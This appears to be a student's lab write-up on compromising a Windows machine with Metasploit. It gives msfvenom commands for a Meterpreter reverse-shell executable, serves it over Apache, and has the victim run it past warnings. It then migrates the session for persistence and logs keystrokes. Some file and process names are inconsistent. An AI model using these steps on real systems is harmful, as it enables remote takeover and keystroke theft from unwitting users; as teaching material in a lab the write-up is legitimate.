 # EX : 6 Compromising windows using Metasploit 

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/0aaf688d-2d73-4d34-8453-3e64cc703b24)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > malware.exe
#### OUTPUT
![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/47c3b051-8684-488d-895c-bea9f2d2604e)


copy the malware.exe into the apache /var/www/html folder

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/750b6c58-84d1-4614-b9fc-09fe2fedd029)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/5650d9f0-c4c1-411a-a21a-5a45ffa361a0)


Check the status of apache2

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/0441b4c9-e7d5-4318-96cb-1a6b720c4b8a)


Invoke msfconsole:
![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/c9292e2c-4905-421a-8742-a940f596b4f5)

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/54aeae61-a82f-4069-b2da-a6673e89135f)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![download](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a6b73051-a143-4740-b3d9-27c23762218f)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![exploit](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/b46a08f7-a9fc-4e71-8fdd-170ee187dd22)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![meterpreter-ps](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/7e6e28fb-b095-4fd1-81f8-a0292f82c9a2)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![notepad](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/35be18d7-51b0-4529-8fd8-76740f0c9ba6)
keyscan_dump	Shows the keystrokes captured so far
![keyscan_dump](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d40a4428-0c65-4855-be1d-c278766082fb)






## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
